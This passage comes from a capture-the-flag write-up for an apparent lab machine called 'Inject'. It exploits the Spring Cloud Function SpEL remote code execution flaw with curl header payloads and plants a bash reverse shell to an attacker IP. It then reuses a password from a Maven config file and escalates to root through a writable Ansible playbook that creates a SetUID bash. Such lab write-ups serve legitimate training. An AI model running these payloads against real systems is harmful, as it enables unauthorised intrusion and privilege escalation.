  ✗ Denial of Service (DoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-COMFASTERXMLJACKSONCORE-3038424] in com.fasterxml.jackson.core:jackson-databind@2.13.2
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-json@2.6.5 > com.fasterxml.jackson.core:jackson-databind@2.13.2
  ✗ Denial of Service (DoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2823313] in org.springframework:spring-beans@5.3.17
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework:spring-web@5.3.17 > org.springframework:spring-beans@5.3.17
  ✗ Improper Input Validation [High Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCATEMBED-3225086] in org.apache.tomcat.embed:tomcat-embed-core@9.0.60
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-tomcat@2.6.5 > org.apache.tomcat.embed:tomcat-embed-core@9.0.60
  ✗ Denial of Service (DoS) [High Severity][https://security.snyk.io/vuln/SNYK-JAVA-COMFASTERXMLJACKSONCORE-2421244] in com.fasterxml.jackson.core:jackson-databind@2.13.2
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-json@2.6.5 > com.fasterxml.jackson.core:jackson-databind@2.13.2
  ✗ Improper Access Control [Critical Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-3369852] in org.springframework:spring-webmvc@5.3.17
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework:spring-webmvc@5.3.17
  ✗ Remote Code Execution [Critical Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751] in org.springframework:spring-beans@5.3.17
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework:spring-web@5.3.17 > org.springframework:spring-beans@5.3.17

  Upgrade org.springframework.cloud:spring-cloud-function-web@3.2.2 to org.springframework.cloud:spring-cloud-function-web@3.2.6 to fix
  ✗ Denial of Service (DoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2928757] in org.springframework.cloud:spring-cloud-function-context@3.2.2
    introduced by org.springframework.cloud:spring-cloud-function-web@3.2.2 > org.springframework.cloud:spring-cloud-function-context@3.2.2
  ✗ Denial of Service (DoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2823310] in org.springframework:spring-messaging@5.3.17
    introduced by org.springframework.cloud:spring-cloud-function-web@3.2.2 > org.springframework.cloud:spring-cloud-function-context@3.2.2 > org.springframework:spring-messaging@5.3.17
  ✗ Remote Code Execution [Critical Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2436645] in org.springframework.cloud:spring-cloud-function-context@3.2.2
    introduced by org.springframework.cloud:spring-cloud-function-web@3.2.2 > org.springframework.cloud:spring-cloud-function-context@3.2.2

Issues with no direct upgrade or patch:
  ✗ Arbitrary Code Execution [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3152153] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  This issue was fixed in versions: 2.0
```

Snyk does an amazing job listing out all the vulnerable packages. It also includes a link to a more detailed write up and a severity score. Going through the list I highlight the following packages as interesting candidates to dive deeper into:

- [Remote Code Execution](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751) in org.springframework:spring-beans@5.3.17 (Critical)
- [Remote Code Execution](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2436645) in org.springframework.cloud:spring-cloud-function-context@3.2.2 (Critical)

I briefly played around with the beans exploit, because it seemed a rather trivial exploit. But I didn’t really get it working. So I moved on plan B the `spring-cloud-function`. The CVE report on Snyk refers to the following POC on github: [https://github.com/hktalent/spring-spel-0day-poc](https://github.com/hktalent/spring-spel-0day-poc). Which looks something like this:

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("random87535.rce.51pwn.com")
Content-Length: 5

51pwn
```

Translating this to a curl request I get the following command, which when executed successfully it should create a file `/tmp/exce_me` on the target machine.

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/exec_me")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

To verify if my exploit works I can use the LFI to see if the file got created. And indeed it does!



I craft a bash reverse shell and save it to a file called `exec_me.sh` that I expose via a `python3 -m http.server` webserver.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.12/8888 0>&1
```

And the following command downloads this file to the remote machine.

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.12:8000/exec_me.sh -o /tmp/exec_me.sh")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

To receive the reverse shell from the remote host I start a `netcat` listener on port 8888 (same port as in the bash reverse shell script) on my local machine. To then trigger the exploit:

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exec_me.sh")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

## Becoming phil

After sending the request I receive a reverse shell as the frank user on my `netcat` listener. I then proceed to upgrade my shell by executing `python3 -c "import pty; pty.spawn('/bin/bash')` . Then I press `CTRL+Z` to temporarily jump out of the reverse shell and execute `stty raw -echo; fg` which brings me back into my reverse shell. Now I can change the term variable with `export TERM=xterm` and be sure I wont jump out of my reverse shell unexpectedly.

Enumeration of the filesystem reveals the password for the user phil in the
/home/frank/.m2/settings.xml Maven configuration file.

```bash
frank@inject:~$ cat /home/frank/.m2/settings.xml

<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

That password didn’t work for SSH as phil, but it does work to `su` as phil:

```bash
frank@inject:~$ su - phil

phil@inject:~$ pwd
/home/phil

phil@inject:~$ ls -alh
total 24K
drwxr-xr-x 3 phil phil 4.0K Feb  1 18:38 .
drwxr-xr-x 4 root root 4.0K Feb  1 18:38 ..
lrwxrwxrwx 1 root root    9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil 3.7K Feb 25  2020 .bashrc
drwx------ 2 phil phil 4.0K Feb  1 18:38 .cache
-rw-r--r-- 1 phil phil  807 Feb 25  2020 .profile
-rw-r----- 1 root phil   33 Jul  6 18:42 user.txt
```

Now I can read the `user.txt` flag.

## I am Root

Running my good old trusty `[linpeas.sh](http://linpeas.sh)` didn’t provide any useful information. I also tried manual
enumeration but had no luck there either. So I decided to give [pspy](https://github.com/DominicBreuker/pspy) a try. I downloaded the 64bit binary from GitHub, added it into the folder being hosted by my python webserver. And then proceeded download the binary on to the target machine.

After running it for a few minutes, I notice the following processes running as `root` indicating that they are being run on a CRON schedule.

```bash
2023/07/07 22:10:01 CMD: UID=0     PID=4069   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
2023/07/07 22:10:01 CMD: UID=0     PID=4074   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/07/07 22:10:01 CMD: UID=0     PID=4076   |
2023/07/07 22:10:01 CMD: UID=0     PID=4077   |
2023/07/07 22:10:02 CMD: UID=0     PID=4078   |
2023/07/07 22:10:02 CMD: UID=0     PID=4080   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/07/07 22:10:02 CMD: UID=0     PID=4081   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```

More particularly this is the exact command:

```bash
/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

This shows that the root user is using [ansible-parallel](https://git.afpy.org/mdk/ansible-parallel) to execute any playbook in the `/opt/automation/tasks` directory.

Ansible is a tool that is pretty dear to my heart. It’s a powerful and flexible tool for automating IT tasks and managing infrastructure at scale, making it easier to maintain consistency across multiple servers and environments. It uses a declarative language called YAML to describe configuration changes and tasks, and can be used to manage systems running on a wide range of operating systems. And a playbook is Ansible’s primary way to describe the configuration, deployment and orchestration of different tasks.

Checking the permission of the `/opt/automation/tasks` directory, it seems that only the root user and the staff user group have read and write access.

```bash
phil@inject:/dev/shm$ ls -alh /opt/automation/tasks
total 12K
drwxrwxr-x 2 root staff 4.0K Jul  7 21:50 .
drwxr-xr-x 3 root root  4.0K Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jul  7 21:50 playbook_1.yml

phil@inject:/dev/shm$ ls -alh /opt/automation/
total 12K
drwxr-xr-x 3 root root  4.0K Oct 20  2022 .
drwxr-xr-x 3 root root  4.0K Oct 20  2022 ..
drwxrwxr-x 2 root staff 4.0K Jul  7 21:50 tasks
```

Fortunately, the user `phil` is a member of the user group staff .

The simplest way to run some command via Ansible is with the built-in [Shell module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html). I’ll make a file that’s as simple as:

```bash
- hosts: localhost
  tasks:
    - shell: |
        cp /bin/bash /tmp/bash
        chmod +x /tmp/bash
        chmod u+s /tmp/bash
      become: true
```

I’ll save this as `/opt/automation/tasks/exec-me.yml`. The playbook creates a copy of `bash` that’s owned by root with the SetUID bit enabled. This way I can launch bash with `-p` and force it to maintain privileges. The next time the CRON runs, a new bash file appears in `/tmp`. Executing this copy gives me a `root` shell and allows me to read the flag.

```bash
phil@inject:/dev/shm$ /tmp/bash -p

bash-5.0# whoami
root

bash-5.0# cat /root/root.txt
348b58694e7224773ebefa7c62e49550
```
